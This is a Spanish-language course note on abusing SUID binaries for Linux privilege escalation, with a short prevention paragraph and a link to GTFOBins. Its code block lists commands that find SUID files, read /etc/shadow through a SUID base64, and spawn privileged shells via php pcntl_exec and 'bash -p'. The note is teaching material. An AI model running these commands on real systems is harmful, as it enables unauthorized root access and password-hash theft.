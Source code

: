 # Abusando de privilegios SUID

Tags: #Linux #SUID  #Escalada #Root #Privilegios 

Un privilegio **SUID** (**Set User ID**) es un permiso especial que se puede establecer en un archivo binario en sistemas Unix/Linux. Este permiso le da al usuario que ejecuta el archivo los **mismos privilegios** que el **propietario** del archivo.

Por ejemplo, si un archivo binario tiene establecido el permiso SUID y es propiedad del usuario root, cualquier usuario que lo ejecute adquirirá temporalmente los mismos privilegios que el usuario root, lo que le permitirá realizar acciones que normalmente no podría hacer como un usuario normal.

El abuso de privilegios SUID es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a un archivo binario con permisos SUID, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

Para prevenir el abuso de privilegios SUID, se recomienda limitar el número de archivos con permisos SUID y asegurarse de que solo se otorguen a archivos que requieran este permiso para funcionar correctamente. Además, es importante monitorear regularmente el sistema para detectar cambios inesperados en los permisos de los archivos y para buscar posibles brechas de seguridad.

Una vez más, se os comparte el mismo recurso que en la clase anterior, dado que esta página también contempla los binarios con permiso SUID que potencialmente pueden ser explotados:

- **GTFOBins**: [https://gtfobins.github.io](https://gtfobins.github.io/)


## SUID

En la pagina de GTFOBins buscamos el comando y la pestaña de **SUID**
* El comando que tiene un privilegios SUID contiene una **S**  o 4755
* Este tipo de comandos afecta a nivel de sistema a todos los usuarios 

```bash 
❯ find / -perm -4000 2>/dev/null                  # Para ver que comandos son SUID, los buscamos desde la raiz 
❯ find / -perm -4000 -ls 2>/dev/null              # Para ver que comandos son SUID, los buscamos desde la raiz y ademas miramos el privilegio

# Podemos encontrar comandos asi:
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /usr/bin/base64
-rwsr-xr-x 1 root root 8756 Feb 9 2022 /usr/bin/php8.1

# Podremos ejecutar el comando si es SUID como el propietario de forma temporal sin passwd
❯ base64 /etc/shadow | base64 -d                  # Podriamos ver el /etc/shadow

❯ php -r "pcntl_exec('/bin/sh', ['-p']);"         # Podemos obtener una consola interactiva
❯ bash -p                                         # Obtener la consola bash, p = privilege
```

